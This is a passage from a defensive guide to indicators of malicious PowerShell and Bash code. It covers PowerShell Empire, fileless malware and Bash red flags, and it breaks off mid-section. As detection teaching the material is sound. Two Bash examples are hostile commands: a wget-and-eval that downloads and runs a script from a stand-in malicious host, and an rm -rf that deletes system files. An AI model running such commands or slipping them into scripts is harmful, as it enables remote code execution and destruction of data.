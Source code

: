 #### Example 1: **PowerShell Empire**

PowerShell Empire is a well-known post-exploitation framework that allows attackers to establish a foothold in a compromised system. It provides a variety of modules for performing malicious actions. Attackers often use PowerShell Empire to evade detection and maintain persistence. Some indicators associated with PowerShell Empire include:

- Unusual network traffic patterns involving encrypted communication over unusual ports.
- Execution of obfuscated PowerShell commands using Base64 encoding.
- Suspicious PowerShell scripts that bypass execution policies to run unsigned scripts.

#### Example 2: **Fileless Malware via PowerShell**

Fileless malware is a type of attack that doesn't rely on traditional malicious files. Instead, it resides in memory, making it harder to detect. PowerShell is frequently used to execute fileless attacks due to its capabilities. Some indicators of fileless malware via PowerShell include:

- Execution of PowerShell commands that download and execute scripts directly from the internet.
- Use of reflective loading techniques to inject malicious code into legitimate processes.
- Presence of anomalous PowerShell processes in memory without a corresponding script file on disk.

## Bash Malicious Code Indicators

Bash, the default shell for Unix-based systems, is susceptible to manipulation for malicious ends. Uncovering malicious Bash scripts involves recognizing indicators that highlight potential threats:

### 1. **Command Substitution**

Malicious Bash scripts often employ command substitution to execute arbitrary commands within the script. Backticks or the '$()' syntax are typical indicators.

Example:
```bash
malicious_command=$(wget http://malicious-site.com/backdoor.sh -O -)
eval "$malicious_command"
```
In this case, the variable 'malicious_command' holds the result of downloading and executing a script from a potentially harmful website.

### 2. **Unusual File Operations**

Bash scripts engaging in suspicious file operations, such as deleting vital system files or copying sensitive data, should raise alarms.

Example:
```bash
rm -rf /important/system/files/*
```
The 'rm' command with the '-rf' flag recursively removes files, potentially leading to the loss of crucial data.

### 3. **Complex Conditional Statements**

Complex conditional statements can obscure the actual logic of the script and make it harder to identify malicious behavior.
